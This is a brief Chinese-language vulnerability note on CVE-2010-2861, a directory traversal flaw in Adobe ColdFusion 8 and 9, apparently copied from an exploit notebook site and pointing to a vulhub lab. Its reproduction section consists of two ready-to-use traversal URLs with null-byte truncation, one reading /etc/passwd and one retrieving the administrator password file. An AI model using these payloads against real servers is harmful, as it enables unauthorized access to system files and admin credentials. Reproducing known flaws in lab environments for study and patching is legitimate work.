

# （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

> 原文：[http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2010-2861.html](http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2010-2861.html)

## 一、漏洞简介

Adobe ColdFusion 8、9 版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 二、漏洞影响

Adobe ColdFusion 8

Adobe ColdFusion 9

## 三、复现过程

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

## 参考链接

> [https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/](https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/)

